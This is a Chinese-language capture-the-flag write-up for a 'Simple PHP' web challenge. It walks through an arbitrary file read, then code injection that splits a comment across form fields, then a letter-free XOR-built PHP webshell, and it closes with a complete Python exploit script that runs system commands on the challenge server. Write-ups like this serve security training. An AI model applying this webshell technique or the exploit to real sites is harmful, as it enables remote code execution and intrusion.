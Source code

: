 #  Simple PHP

进入网页，可以看到登录和注册两个界面，注册一个用户并登录进去。

![avatar](img/tqlctf_simple_php_0.png)
![avatar](img/tqlctf_simple_php_1.png)
![avatar](img/tqlctf_simple_php_2.png)

查看网页源码可以找到一个有意思的地方，看样子这个get_pic.php似乎可以读取其他文件。

![avatar](img/tqlctf_simple_php_3.png)

把后面参数的png替换成index.php试试，结果以base64的形式出现，解码之后得到的是php的文件内容，说明get_pic.php可以读取任意文件的内容，利用这个就可以得到网站的源码。

![avatar](img/tqlctf_simple_php_4.png)
![avatar](img/tqlctf_simple_php_5.png)

可以发现，在注册用户之后，后端会对post的内容进行判断，再将template中的对应位置替换成post的内容，保存为一个新的php文件。

![avatar](img/tqlctf_simple_php_6.png)
![avatar](img/tqlctf_simple_php_7.png)

password被md5了，所以只剩下user、punctuation和website可以利用，其中user的长度限制得很短，punctuation很长但不能输入字母数字，且punctuation是在php代码以外的html部分，website同理。

要把punctuation包含的php代码里面，可以在user和punctuation之间用/* */注释掉，其中user的内容可以设为“eval/*”，正好6个字符且能通过正则，再把punctuation设为“*/(“”));/*”，引号中是shell的内容，这样这段代码就等同于“eval(“”)”。网上可以找到无字母数字的webshell，其原理是通过异或等方式输出字母。

![avatar](img/tqlctf_simple_php_8.png)

使用这种方法，就能写出一个绕过正则的可执行代码，其内容为“assert($_POST(_));”。

![avatar](img/tqlctf_simple_php_9.png)

成功注册并生成新文件后，post这个文件，其中表单内容为php代码，例如用system执行系统命令。

![avatar](img/tqlctf_simple_php_10.png)

可以发现ls执行成功了，并且能在根目录看到flag文件，最后用同样的方式cat这个文件就能得到flag内容。

EXP：
```python
import requests
import hashlib

base = 'http://120.77.216.55:45323'
user = 'eval/*'
pass_ = 'aaa'
punctuation = \
    "*/(\"" + \
    "\$_ = (':' ^ '[') . ('.' ^ ']') . ('.' ^ ']') . ('_' ^ ':') . ('_' ^ '-') . ('_' ^ '+');" + \
    "\$__ = '_' . ('+' ^ '{') . ('/' ^ '`') . ('(' ^ '{') . ('(' ^ '|');" + \
    "\$___ = \$\$__;" + \
    "\$_(\$___[_]);" + \
    "\"));/*"
website = 'aaa'
signup = {
    'user': user,
    'pass': pass_,
    'website': website,
    'punctuation': punctuation,
}
requests.post(base + '/index.php', data=signup)

cookies = {
    'user': user,
    'pass': 'zsf' + hashlib.md5(pass_.encode()).hexdigest()
}

user_php = base + '/sandbox/' + hashlib.md5(user.encode()).hexdigest() + '.php'
r = requests.post(user_php, cookies=cookies, data={'_': 'system(\'ls /\');'})
print(r.text)
```
